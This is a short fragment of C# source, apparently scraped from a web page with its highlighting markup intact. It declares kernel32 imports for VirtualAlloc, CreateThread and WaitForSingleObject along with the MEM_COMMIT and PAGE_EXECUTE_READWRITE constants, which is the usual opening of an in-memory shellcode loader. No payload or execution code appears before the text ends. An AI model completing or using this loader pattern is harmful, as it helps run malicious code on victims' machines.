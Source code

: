 <span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Runtime<span class="token punctuation">.</span>InteropServices</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Security<span class="token punctuation">.</span>Cryptography<span class="token punctuation">.</span>X509Certificates</span><span class="token punctuation">;</span>

<span class="token keyword">public</span> <span class="token keyword">class</span> <span class="token class-name">Program</span> <span class="token punctuation">{</span>
  <span class="token comment">//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc </span>
  <span class="token punctuation">[</span><span class="token function">DllImport</span><span class="token punctuation">(</span><span class="token string">"kernel32"</span><span class="token punctuation">)</span><span class="token punctuation">]</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token keyword">extern</span> <span class="token return-type class-name">UInt32</span> <span class="token function">VirtualAlloc</span><span class="token punctuation">(</span><span class="token class-name">UInt32</span> lpStartAddr<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> size<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> flAllocationType<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> flProtect<span class="token punctuation">)</span><span class="token punctuation">;</span>

  <span class="token comment">//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread</span>
  <span class="token punctuation">[</span><span class="token function">DllImport</span><span class="token punctuation">(</span><span class="token string">"kernel32"</span><span class="token punctuation">)</span><span class="token punctuation">]</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token keyword">extern</span> <span class="token return-type class-name">IntPtr</span> <span class="token function">CreateThread</span><span class="token punctuation">(</span><span class="token class-name">UInt32</span> lpThreadAttributes<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> dwStackSize<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> lpStartAddress<span class="token punctuation">,</span> <span class="token class-name">IntPtr</span> param<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> dwCreationFlags<span class="token punctuation">,</span> <span class="token keyword">ref</span> <span class="token class-name">UInt32</span> lpThreadId<span class="token punctuation">)</span><span class="token punctuation">;</span>

  <span class="token comment">//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject</span>
  <span class="token punctuation">[</span><span class="token function">DllImport</span><span class="token punctuation">(</span><span class="token string">"kernel32"</span><span class="token punctuation">)</span><span class="token punctuation">]</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token keyword">extern</span> <span class="token return-type class-name">UInt32</span> <span class="token function">WaitForSingleObject</span><span class="token punctuation">(</span><span class="token class-name">IntPtr</span> hHandle<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> dwMilliseconds<span class="token punctuation">)</span><span class="token punctuation">;</span>

  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token class-name">UInt32</span> MEM_COMMIT <span class="token operator">=</span> <span class="token number">0x1000</span><span class="token punctuation">;</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token class-name">UInt32</span> PAGE_EXECUTE_READWRITE <span class="token operator">=</span> <span class="token number">0x40</span><span class="token punctuation">;</span>

